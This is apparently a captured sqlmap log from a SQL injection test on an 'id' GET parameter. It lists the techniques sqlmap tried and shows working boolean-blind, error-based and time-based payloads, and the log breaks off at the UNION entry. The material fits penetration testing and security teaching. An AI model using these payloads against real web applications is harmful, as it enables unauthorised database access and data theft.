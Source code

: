 ```bash
[12:51:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:51:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[12:51:00] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --not-string="Me")
[12:51:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:51:00] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[12:51:00] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[12:51:00] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:51:00] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:51:00] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:51:00] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:51:00] [INFO] GET parameter 'id' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[12:51:00] [INFO] testing 'MySQL inline queries'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[12:51:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[12:51:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:51:10] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[12:51:10] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:51:10] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:51:10] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:51:10] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:51:10] [INFO] target URL appears to have 2 columns in query
[12:51:10] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[12:51:10] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 136 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=test' OR NOT 7718=7718#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=test' OR (SELECT 6333 FROM(SELECT COUNT(*),CONCAT(0x7176627071,(SELECT (ELT(6333=6333,1))),0x71786b7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- XGxV&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=test' AND (SELECT 8341 FROM (SELECT(SLEEP(5)))BInm)-- SaYq&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
```